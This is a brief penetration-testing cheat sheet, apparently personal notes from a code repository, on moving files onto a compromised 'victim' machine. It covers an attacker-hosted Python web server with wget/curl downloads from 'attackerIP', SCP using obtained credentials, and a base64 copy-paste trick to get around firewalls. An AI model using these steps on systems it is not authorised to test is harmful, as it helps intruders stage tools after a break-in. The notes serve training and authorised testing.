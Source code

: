 # Transferring files to remote victim

Once we compromised a system we could use different methods to transfer files to the victim depending on the situation.

### Using wget or cURL

If the compromised victim has privileges enough to download files we could use wget or curl to copy a file from our own machine.\
\
First go into the directory  that contains the file you want to transfer and run a simple Python HTTP server there with:

```bash
cd /transferDirectory
python3 -m http.server 8080         #8080 as an example port, use whatever

```

Now the server is listening on 8080 in our machine, download the file on the "compromised with code execution" victim with:

```bash
wget http://attackerIP:8080/file
or
curl http://attackerIP:8080/file -o newNameFile

```

***

### Using SSH file transfer SCP

Granted we obtained SSH credentials we could use SCP to transfer files from our attacking machine to the victim directly:

```bash
scp /local/dir/fileX user@IP:/remote/dir/fileX
```

***

### Using Base64

If you are not able to transfer files directly, for example because the firewall protection prevents the victim to download files, you could use the base64 trick.\
Consists on encoding the file in base64 without line breaks (`-w 0`) so you can copy every detail from the file:

```bash
base64 fileX -w 0 
```

And paste the result on the compromised machine with:

```bash
echo d2hhdCBhcmUgeW9 ... 1IGxvb2tpbmcgYXQg | base64 -d > fileX
```

To validate that the file transferred correctly we could check and compare the MD5 hash from the original file to the file pasted in the victim system:

```bash
md5sum fileX
```
